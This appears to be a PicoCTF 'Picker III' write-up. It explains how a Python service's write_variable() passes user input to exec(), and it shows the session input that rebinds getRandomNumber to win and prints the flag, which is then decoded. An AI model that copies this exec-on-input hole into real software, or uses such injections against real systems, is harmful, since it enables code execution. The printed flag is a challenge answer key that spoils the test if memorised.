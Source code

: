 ```yaml
---
title: "PicoCTF: Picker III"
summary: Exploiting global values!
date: 2024-09-04
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```


# Investigating the Source Code
In this CTF, we are given the source code for the Python script running on the server. This file is much more involved than Picker I/II, so let's break down how the code works.

## Code Breakdown

### Getting User Input
The script will run in a loop, waiting for user input. It calls various functions given user input:
```python3
while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
```

### Handling User Input
The code holds a "table" mapping numbers 1 through 4 to different functions, which roughly looks like:

| Input Number | Function in Code  |
|:------------:|:-----------------:|
| 1            | print_table()     |
| 2            | read_variable()   |
| 3            | write_variable()  |
| 4            | getRandomNumber() |

After parsing through the various functions, the interesting function is the `write_variable()` function:

```python3
def write_variable():
  var_name = input('Please enter variable name to write: ')
  if( filter_var_name(var_name) ):
    value = input('Please enter new value of variable: ')
    if( filter_value(value) ):
      exec('global '+var_name+'; '+var_name+' = '+value)
    else:
      print('Illegal value')
  else:
    print('Illegal variable name')

```

The key line is `exec(f'global {var_name}; {var_name} = {value}')`, which executes code to create or modify a global variable with the specified name and value.

## Global Variable Implications

The `global` keyword allows modification of global variables from within functions. In Python, global functions and variables are accessible throughout the module. By using `write_variable()`, we can modify any global variable, including functions.

Here are some functions in the global scope of the file:

| Function Name    | Side Effect                         |
|:----------------:|:-----------------------------------:|
| win()            | outputs flag                        |
| read_variable()  | outputs global scoped variable                      |
| write_variable() | writes a value to a global variable |
| getRandomNumber()  | outputs '4'                                    |

Since we can modify any global value, we can change `getRandomNumber()` to point to `win()`, which will allow us to obtain the flag.

# Getting the Flag

After connecting to the server, let's run the `write_variable()` function, and then run our modified `getRandomNumber()` function:

| Input Number | Function in Code  |
|:------------:|:-----------------:|
| 1            | print_table()     |
| 2            | read_variable()   |
| 3            | write_variable()  |
| 4            | getRandomNumber() |

```
==> 3
Please enter variable name to write: getRandomNumber
Please enter new value of variable: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d
```

We got the flag! Let's clean it up.

```python3
flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d"

flag = flag.split(" ")
flag = "".join(chr(int(word, 16)) for word in flag)

# picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}
```
